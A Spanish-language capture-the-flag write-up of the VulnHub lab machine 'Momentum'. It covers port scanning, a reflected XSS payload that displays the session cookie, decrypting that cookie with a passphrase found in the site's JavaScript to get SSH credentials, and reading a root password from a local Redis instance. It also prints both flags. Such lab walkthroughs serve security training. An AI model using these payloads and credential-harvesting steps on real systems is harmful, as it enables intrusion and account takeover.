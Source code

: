 # Write Up Momentum VulnHub

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-17 15:02 EDT
Nmap scan report for 192.168.5.191
Host is up (0.00041s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 5c:8e:2c:cc:c1:b0:3e:7c:0e:22:34:d8:60:31:4e:62 (RSA)
|   256 81:fd:c6:4c:5a:50:0a:27:ea:83:38:64:b9:8b:bd:c1 (ECDSA)
|_  256 c1:8f:87:c1:52:09:27:60:5f:2e:2d:e0:08:03:72:c8 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Momentum | Index 
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:C9:EA:BD (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.67 seconds
```

### Puerto 80

Si leemos el codigo vemos un apartado que pone lo siguiente...

```html
<head>
    <link rel="stylesheet" type="text/css" href="css/style.css">
    <script type="text/javascript" src="js/main.js"></script>
    <title>Momentum | Index </title>
</head>
```

Y si nos metemos en ese `js/main.js` vemos lo siguiente...

```js
function viewDetails(str) {

  window.location.href = "opus-details.php?id="+str;
}

/*
var CryptoJS = require("crypto-js");
var decrypted = CryptoJS.AES.decrypt(encrypted, "SecretPassphraseMomentum");
console.log(decrypted.toString(CryptoJS.enc.Utf8));
*/
```

Vemos que hay un `opus-details.php` y con el parametro `id=`, si vamos a la siguiente `URL`...

```
URL = http://<IP>/opus-details.php
```

Vemos que existe el `.php` ahora probaremos alguna inyeccion de `XSS` en el parametro `id=`...

```
URL = http://<IP>/opus-details.php?id=<h1>XSS</h1>
```

Y veremos que ciertamente se ejecuta a parte de que se muestra en la pagina...

Ya que sabemos que es vulnerable al `XSS` haremos lo siguiente...

Robaremos la `Cookie` y por lo que dice el texto que encontramos en `Java` lo desencriptaremos utilizando la contraseña proporcionada...

```
 URL = http://<IP>/opus-details.php?id=<script>alert(document.cookie)</script>
```

> Cookie

```
U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt
```

> Key

```
SecretPassphraseMomentum
```

URL = https://www.browserling.com/tools/aes-decrypt

Lo desencriptamos en esa `URL`, una vez decodificado veremos lo siguiente...

```
auxerre-alienum##
```

Por lo que parece son las credenciales del usuario `auxerre`...

```
User = auxerre
Password = auxerre-alienum##
```

```shell
ssh auxerre@<IP>
```

Una vez estemos dentro leemos la flag...

> user.txt (flag1)

```
[ Momentum - User Owned ]
---------------------------------------
flag : 84157165c30ad34d18945b647ec7f647
---------------------------------------
```

Si hacemos lo siguiente...

```shell
ss -nltp
```

Vemos los procesos con sus puertos y entre ellos esta este proceso trabajando en el `localhost` y si investigamos que es, es un servidor web utilizando `redis`...

```
LISTEN               0                    128                                    127.0.0.1:6379                                   0.0.0.0:*
```

Por lo que haremos lo siguiente para ver las claves que hay...

```shell
redis-cli
```

Info:

```
127.0.0.1:6379> keys *
1) "rootpass"
127.0.0.1:6379> get rootpass
"m0mentum-al1enum##"
127.0.0.1:6379> exit
```

Veremos que hemos descubierto una contraseña la cual va a ser la contraseña de `root`, por lo que...

```shell
su root
```

Y una vez metamos esa `password` seremos `root`, por lo que leeremos la flag...

> root.txt (flag2)

```
[ Momentum - Rooted ]
---------------------------------------
Flag : 658ff660fdac0b079ea78238e5996e40
---------------------------------------
by alienum with <3
```
